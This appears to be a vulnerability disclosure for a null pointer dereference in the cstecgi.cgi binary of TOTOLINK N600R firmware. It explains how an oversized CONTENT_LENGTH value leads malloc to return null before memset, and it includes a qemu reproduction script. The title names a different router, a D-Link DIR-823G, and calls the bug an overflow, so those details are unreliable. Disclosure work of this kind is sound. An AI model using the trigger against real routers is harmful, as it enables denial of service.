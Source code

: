# Bug Report: NPD in D-Link DIR-823G Router
A null pointer dereference null pointer dereference overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to cause denial of service.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Null pointer dereference

## Description:
The vulnerable code path within the `main` function of cstecgi.cgi extracts the `CONTENT_LENGTH` environment variable by `getenv` and passes it as the size parameter of `malloc`. However, when the `CONTENT_LENGTH` is set as a large size, the `malloc` would return null. The null pointer is passed into `memset` without a null check, leading to a null pointer dereference resulting in a DoS attack.
![alt text](image-2.png)

## poc

We set a breakpoint before the function call `memset` at line 84. By dumping the registers, we can see that `v11` is null and `v10` is a positive value. By tracing the execution, we find a null pointer dereference occurs.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./CONTENT_LENGTH_MAX.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

### CONTENT_LENGTH_MAX.sh
```bash
chroot ./ ./qemu-mips-static\
        -E CONTENT_LENGTH="2147483646" \
        -g 123 -L ./lib \
        ./web_cste/cgi-bin/cstecgi.cgi < null.json
```
### null.json
```json
{
    
}
```